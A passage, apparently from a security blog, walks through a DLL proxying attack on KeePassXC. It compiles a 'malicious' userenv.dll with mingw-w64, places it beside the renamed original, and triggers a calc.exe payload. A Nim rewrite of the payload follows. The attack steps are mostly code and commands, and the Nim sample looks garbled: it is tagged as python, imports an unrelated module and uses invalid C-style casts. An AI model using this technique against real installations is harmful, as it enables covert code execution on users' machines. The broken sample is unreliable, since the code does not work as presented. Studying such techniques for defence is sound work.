 Cross-compiling and linking the malicious Proxy DLL using mingw-w64:

```
i686-w64-mingw32-gcc -shared -o userenv.dll payload.c userenv.def -s
```

Copy the malicious `userenv.dll` proxy and the legitimate `userenv_orig.dll`
to the home folder of KeePassXC. 

Now launch `KeePassXC.exe` and the application behave normally and also execute the Payload by starting `calc.exe`

![](/images/payload_detonation.gif)
Still here? Alright lights try something different to create the payload. Since Nim has an awesome option called [Foreign Function Interface (FFI)](https://nim-lang.org/docs/manual.html#foreign-function-interface) we could also make use of it. Let's switch from C to Nim:


```python
import winrm, os

proc payload() =
  var si: STARTUPINFO
  var pi: PROCESS_INFORMATION

  let cmd = "calc.exe".toWideCString()

  zeroMemory(cast[ptr](&si), sizeof(si))
  si.cb = sizeof(si)
  zeroMemory(cast[ptr](&pi), sizeof(pi))

  createProcess(nil, cmd, nil, nil, false, 0, nil, nil, cast[ptr](&si), cast[ptr](&pi))

when isMainModule:
  proc dllMain(hinstDLL: HINSTANCE, fdwReason: DWORD, lpReserved: LPVOID): BOOL {.stdcall.} =
    case fdwReason
    of DLL_PROCESS_ATTACH:
      payload()
    of DLL_THREAD_ATTACH, DLL_THREAD_DETACH, DLL_PROCESS_DETACH:
      discard
    result = true

  # Mimic WinAPI DLL loading process
  let hModule = cast[HINSTANCE](getModuleHandle(nil))
  let lpReserved = nil

  let result = dllMain(hModule, DLL_PROCESS_ATTACH, lpReserved)
  if result == false:
    echo "Payload execution failed"
```
